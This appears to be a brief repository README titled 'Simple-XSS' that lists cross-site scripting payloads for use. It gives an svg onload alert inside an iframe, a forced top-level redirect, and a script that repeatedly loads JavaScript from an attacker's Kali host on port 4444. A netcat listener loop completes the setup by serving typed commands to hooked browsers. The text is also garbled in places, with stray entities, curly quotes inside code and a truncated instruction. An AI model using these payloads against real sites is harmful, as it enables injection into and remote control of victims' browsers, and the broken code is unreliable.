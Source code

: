 # Simple-XSS

HTML FILE UPLOAD:


<iframe src="<svg/onload = alert(1);>"></iframe>
YOUR_ATTACK_PAYLOAD= <svg/onload = alert(1);>
<script>
top.location.href=“https://example.com/”;
</script>gt;





Swizz Army Nife + JavaScript:


<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>


while :; do printf "kalilinux>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
